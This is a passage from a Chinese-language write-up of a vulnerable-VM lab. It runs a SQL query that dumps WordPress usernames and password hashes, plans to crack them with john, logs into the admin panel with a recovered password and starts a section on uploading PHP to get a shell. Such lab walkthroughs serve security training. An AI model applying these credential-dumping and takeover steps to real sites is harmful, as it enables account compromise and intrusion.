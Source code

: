 将表中的 user\_login 与 user\_pass 提取出来并导入文件中，使用 john 进行爆破

```bash
select concat(user_login,':',user_pass) from wp_users;
John:$P$B7889EMq/erHIuZapMB8GEizebcIy9.    
Elly:$P$BlumbJRRBit7y50Y17.UPJ/xEgv4my0    
Peter:$P$BTzoYuAFiBA5ixX2njL0XcLzu67sGD0   
barry:$P$BIp1ND3G70AnRAkRY41vpVypsTfZhk0   
heather:$P$Bwd0VpK8hX4aN.rZ14WDdhEIGeJgf10 
garry:$P$BzjfKAHd6N4cHKiugLX.4aLes8PxnZ1   
harry:$P$BqV.SQ6OtKhVV7k7h1wqESkMh41buR0   
scott:$P$BFmSPiDX1fChKRsytp1yp8Jo7RdHeI1   
kathy:$P$BZlxAMnC6ON.PYaurLGrhfBi6TjtcA0   
tim:$P$BXDR7dLIJczwfuExJdpQqRsNf.9ueN0     
ZOE:$P$B.gMMKRP11QOdT5m1s9mstAUEDjagu1     
Dave:$P$Bl7/V9Lqvu37jJT.6t4KWmY.v907Hy.    
Simon:$P$BLxdiNNRP008kOQ.jE44CjSK/7tEcz0   
Abby:$P$ByZg5mTBpKiLZ5KxhhRe/uqR.48ofs.    
Vicki:$P$B85lqQ1Wwl2SqcPOuKDvxaSwodTY131   
Pam:$P$BuLagypsIJdEuzMkf20XyS5bRm00dQ0
```

[![](assets/1699929525-71d7c136419ccc39844ac91174f036fe.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231112140216-0867260a-8121-1.png)

得到一些账户和密码

## 获取 shell

### 上传 php

使用用户名 John 与密码 incorrect 进行后台登录：[https://192.168.179.149:12380/blogblog/wp-login.php，进入如下主界面：](https://192.168.179.149:12380/blogblog/wp-login.php%EF%BC%8C%E8%BF%9B%E5%85%A5%E5%A6%82%E4%B8%8B%E4%B8%BB%E7%95%8C%E9%9D%A2%EF%BC%9A)
